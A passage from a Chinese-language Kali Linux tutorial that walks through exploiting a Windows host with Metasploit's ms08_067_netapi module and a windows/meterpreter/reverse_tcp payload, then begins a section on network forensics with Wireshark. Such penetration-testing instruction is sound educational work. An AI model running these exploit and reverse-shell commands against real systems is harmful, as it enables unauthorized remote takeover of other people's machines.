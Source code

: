 这将把控制台提示更改为`exploit`模块，表示您的`exploit`模块已准备好执行。

现在我们的下一步将是向`exploit`模块传递所需的参数值。`show options`命令显示所需的参数。

这里需要传递`RHOST`值。`RHOST`是我们要定位的远程主机。

```
msf exploit(ms08_067_netapi) > set RHOST 192.168.56.102

```

一旦设置了`exploit`模块，下一步是选择`PAYLOAD`。让我们使用`meterpreter`有效载荷如下：

```
msf exploit(ms08_067_netapi) >set PAYLOAD windows/meterpreter/reverse_tcp

```

选择了`meterpreter`有效载荷后，现在我们需要传递有效载荷参数值。再次传递`show options`命令以查看所需的参数。传递 LHOST IP，即攻击机的 IP。

现在我们已经准备好启动 exploit。传递`exploit`命令以将`exploit`模块发送到目标机器。

![Metasploit 的特点](img/5664OT_03_20.jpg)

如果攻击成功，您将注意到控制台提示变为`meterpreter`，表示我们的有效载荷已成功在远程机器上执行，现在我们可以通过攻击机控制它。您可能已经注意到 Metasploit 如何轻松地通过使用`exploit`模块完全接管了远程目标。Metasploit 是一个非常强大的工具，可以对远程目标进行渗透测试。这是有关 Metasploit 的一个快速入门教程。

让我们继续下一节，我们将阅读有关 Kali Linux 中存在的各种取证工具的内容。

## 使用 Kali Linux 进行网络取证

**网络取证**涉及分析、报告和从计算机系统或任何数字存储介质中恢复网络信息。取证涉及对事件的详细调查以及收集相关信息。Kali 配备了一系列工具，可以协助进行有效的取证分析。取证分析通常涉及调查不同方面，需要不同的工具。与利用框架不同，取证通常依赖于多种工具。让我们在这里详细介绍一些主要的取证工具。

### 使用 Wireshark 进行网络分析

Wireshark 是一种类似于**tcpdump**的开源网络数据包分析工具，它捕获通过电线（网络）流动的数据包，并以可理解的形式呈现它们。Wireshark 可以被视为一把瑞士军刀，因为它可以在不同的情况下使用，如网络故障排除、安全操作和学习协议内部。这是一个可以胜任一切任务的工具，并且使用起来非常容易。

使用 Wireshark 的一些重要好处如下：

+   多协议支持

+   用户友好的界面

+   实时流量分析

+   开源

要开始使用 Kali Linux 中的 Wireshark 工具，请导航至**应用程序** | **Kali Linux** | **前 10 个安全工具** | **Wireshark**。
